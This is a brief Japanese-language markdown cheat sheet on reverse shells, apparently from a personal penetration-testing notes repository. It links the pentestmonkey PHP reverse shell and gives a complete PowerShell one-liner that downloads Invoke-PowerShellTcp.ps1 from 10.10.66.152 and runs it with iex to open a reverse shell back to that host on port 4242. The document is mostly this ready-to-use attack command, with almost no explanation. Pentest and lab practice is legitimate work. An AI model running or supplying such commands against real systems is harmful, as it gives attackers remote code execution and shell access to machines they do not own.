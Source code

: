 # reverse_shell

## php
pentestmonkey/php-reverse-shellが個人的に一番使いやすい

https://github.com/pentestmonkey/php-reverse-shell

## powershell
[Invoke-PowerShellTcp(nishang)](https://github.com/sanposhiho/MY_CHEAT_SHEET/blob/master/Windows/Invoke-PowerShellTcp.md)

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.152 -Port 4242
```
